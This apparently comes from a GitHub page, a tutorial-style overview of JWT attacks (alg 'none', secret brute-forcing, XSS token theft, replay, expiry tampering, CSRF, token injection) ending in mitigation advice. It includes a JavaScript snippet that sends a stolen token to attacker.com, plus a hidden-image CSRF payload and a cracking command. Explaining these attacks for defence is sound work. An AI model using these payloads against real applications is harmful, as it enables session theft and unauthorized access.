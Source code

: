 # JSON WEB TOKEN (JWT)

JWT (JSON Web Token) attacks exploit vulnerabilities in token handling, such as weak signing algorithms, token theft, or improper validation, potentially allowing unauthorized access to protected resources.

## Methods to perform JWT

- ###Algorithm Manipulation:

Attackers can exploit applications that do not properly validate the algorithm specified in the JWT header. If the application accepts none as a valid algorithm, an attacker can create a token without a signature.
Example:
```text
{
  "alg": "none",
  "typ": "JWT"
}
```
If the server accepts this token without validation, the attacker can create a valid token with arbitrary claims.

- ### Weak Signing Algorithms:

If the server uses weak signing algorithms (like HS256) and the secret is weak or predictable, attackers can brute-force the secret key.
Example:
```text
# Using a tool like jwt-cracker
jwt-cracker -a HS256 -s "secret" <token>
```
If the secret is found, the attacker can forge valid tokens.

- ### Token Theft:

Attackers can steal JWTs through various means, such as XSS attacks, man-in-the-middle attacks, or insecure storage.
Example:

If a web application stores JWTs in local storage without proper security measures, an attacker can exploit XSS to retrieve the token:
javascript
```texte
// Malicious script
const token = localStorage.getItem('jwt');
fetch('http://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token }),
    headers: { 'Content-Type': 'application/json' }
});
```
- ### Replay Attacks:

If JWTs are not properly invalidated after use, attackers can capture and reuse tokens to gain unauthorized access.
Example:

An attacker intercepts a valid JWT during transmission and reuses it to access protected resources:
```text
GET /api/protected HTTP/1.1
Authorization: Bearer <stolen_jwt>
```
- ### Token Expiration Manipulation:

If the application does not properly handle token expiration, attackers can manipulate the exp claim to extend the validity of a token.
Example:
```text
{
  "exp": 9999999999, // Far future expiration
  "sub": "user_id"
}
```
If the server does not validate the expiration correctly, the attacker can use the token indefinitely.

- ### Cross-Site Request Forgery (CSRF):

If JWTs are stored in cookies without the SameSite attribute, attackers can exploit CSRF vulnerabilities to send requests on behalf of the user.
Example:
```text
<img src="http://vulnerable-website.com/api/transfer?amount=1000" style="display:none;">
```
If the user is authenticated, the request will be sent with the JWT in the cookie.

- ### JWT Injection:

Attackers can inject malicious JWTs into applications that do not validate the token properly.
Example:
```text
POST /api/login HTTP/1.1
Content-Type: application/json

{
    "username": "attacker",
    "password": "password",
    "token": "<malicious_jwt>"
}
```
If the application accepts the injected token, the attacker gains unauthorized access.

## MITIGATION OF JWT
To protect against JWT attacks, consider the following best practices:

 - ### Validate Algorithms:
   Always validate the algorithm specified in the JWT header and reject any tokens that use `none` or weak algorithms.

- ### Use Strong Secrets:
  Use strong, unpredictable secrets for signing tokens and rotate them regularly.

- ### Implement Token Expiration:
  Set reasonable expiration times for tokens and implement refresh tokens for long-lived sessions.

- ### Secure Storage:
  Store JWTs securely, preferably in memory or using secure cookies with the `HttpOnly` and `SameSite` attributes.

- ### Implement CSRF Protection:
  Use anti-CSRF tokens or other mechanisms to protect against CSRF attacks.

- ### Regular Security Audits:
  Conduct regular security assessments and code reviews to identify and remediate vulnerabilities.
